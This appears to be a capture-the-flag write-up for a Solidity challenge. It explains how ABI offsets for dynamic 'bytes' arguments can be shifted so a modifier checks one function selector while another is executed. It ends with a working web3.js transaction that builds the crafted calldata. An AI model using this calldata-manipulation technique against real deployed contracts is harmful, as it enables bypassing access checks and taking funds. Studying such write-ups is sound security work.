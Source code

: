 ### References
- [Use of Dynamic Types](https://docs.soliditylang.org/en/latest/abi-spec.html#use-of-dynamic-types)
- [EVM opcode docs](https://www.ethervm.io/#37)

## Key Observation

Dynamic input types encoding is as following:
- First word (32 bytes) holds the `offset` of start of the data (i.e. the start index of the `length` word).
- Second word (32 bytes) holds the `length` of the dynamic data in bytes.
- Following bytes contain the data itself.


In our case, `flipSwitch` function accepts a single dynamic type `bytes`.
<br>
So, the **"normal"** value for `offset` would be 32, and the `data` would start in position 68 (after the 2 words containing `offset` and `length`, not counting the first 4 bytes of the `method signature`).

## The Exploit

We can change the `offset` to a higher number that will follow the first 72 bytes of `calldata` (i.e. 68 bytes if we don't count the first 4 bytes of `method signature`).
<br>
This way we **shift** the data pass the first 72 bytes that will be used only by the modifier to perform it's validation.

##

```js
await web3.eth.sendTransaction({
    from: player,
    to: contract.address,
    data:
        web3.utils.sha3('flipSwitch(bytes)').substring(0, 10) +                 // "flipSwitch" signature       (4 bytes)
        web3.eth.abi.encodeParameter('uint256', '68').substring(2) +            // bytes _data offset           (32 bytes)
        web3.eth.abi.encodeParameter('uint256', '0').substring(2) +             // unused word                  (32 bytes)
        web3.utils.sha3('turnSwitchOff()').substring(0, 10).substring(2) +      // "turnSwitchOff" signature    (4 bytes)
        web3.eth.abi.encodeParameter('uint256', '4').substring(2) +             // bytes _data length           (32 bytes)
        web3.utils.sha3('turnSwitchOn()').substring(0, 10).substring(2),        // "turnSwitchOn" signature     (4 bytes)
})
```
